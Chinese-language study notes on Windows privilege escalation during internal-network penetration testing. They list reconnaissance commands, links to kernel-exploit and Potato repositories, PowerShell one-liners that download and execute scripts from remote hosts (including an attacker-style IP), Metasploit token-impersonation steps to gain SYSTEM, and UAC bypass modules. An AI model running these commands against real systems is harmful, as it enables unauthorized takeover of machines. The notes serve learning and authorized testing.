 # **7月8日 内网提权**

### **什么是提权**

提权： 把低权限变为高权限

windows :  zhangsan  -> administrator -> system

linux : www-data  -> root 

### **提权的分类**

利用方式的不同：

本地提取：在一个低权限用户的前提下，通过漏洞提权至高权限用户

远程提权： 攻击者直接通过漏洞攻击获取最高权限用户

漏洞的不同：

操作系统提权：

windows：ms08067 ms1105

linux: dirty cow

应用程序提权：

mysql，mssql，IE，phpstudy

### **提权的思路**

提权的前提是目标系统存在漏洞或配置缺陷

- 基本信息收集

- 扫描系统、服务漏洞
- 寻找应用程序漏洞

## **windows ⭐️**

#### **收集信息 ：**

补丁信息 ： systeminfo

http://blog.neargle.com/win-powerup-exp-index/#

wmic qfe get Caption,Description,HotFixID,InstalledOn

杀毒软件：

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List

### 内核漏洞

windows 内核漏洞exp ： https://github.com/SecWiki/windows-kernel-exploits

##### **内核漏洞检测**

- powershell脚本 - Sherlock.ps1 ：

https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1

运行： 在cmd命令行中运行

powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1');Find-AllVulns

powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.111.77:8000/1.ps1');Find-AllVulns

- msf : post/multi/recon/local_exploit_suggester

(检测时要注意 ， meterpreter的位数必须要和靶机操作系统位数一致)

​        rottenpotato ：		https://github.com/foxglovesec/RottenPotato/blob/master/rottenpotato.exe

use incognito  #该模块用来窃取令牌、模仿令牌

list_tokens -u  #列举当前的令牌

execute -cH -f ./potato.exe  #执行exp

list_tokens -u  #查看令牌，有一个SYSTEM权限的模仿令牌

impersonate_token "NT AUTHORITY\\SYSTEM"执行偷取窃取令牌命令

- cs 

cna脚本拓展

Taowu ： https://github.com/pandasec888/taowu-cobalt-strike



**Origin Potato :**

https://github.com/foxglovesec/Potato

**RottenPotato & JuicyPotato:**

https://github.com/ohpe/juicy-potato

**Rogueotato**

https://github.com/antonioCoco/RoguePotato

**SweetPotato:**

https://github.com/CCob/SweetPotato

​                 ![img](..\img\内网渗透-提权\Qwxi2caXJXyMsENClyvCKQ.png)        

### **bypassuac**

uac是用户账户控制 ， 在windows vista 之后出现，用于限制敏感操作。 由于一般情况下，windows 默认账户 都是处于administratos 组中，所以绕过uac，即可获取system用户权限

- msf ： exploit/windows/local/bypassuac  

 ! msf bypassuac 之后获取到meterpreter 还需要进行getsystem才能获取system用户

​                 ![img](../img/内网渗透-提权\mLBVaTpIf6bJuEJCw8I4Yg.pngw=1280&h=283.png)        

 ？ 在getsystem之后怎么回到administrators 组用户

​                 ![img](../img/内网渗透-提权\ROXoYor-EZGYYhp2XGpU8A.png)        

- cs bypassuac

​                 ![img](../img/内网渗透-提权\jb2wJl93KloOLJkFkbf8OA.png)        

​                 ![img](..\img\内网渗透-提权\TWKhqOIR5HQw4cGPhecHIA.png)        

 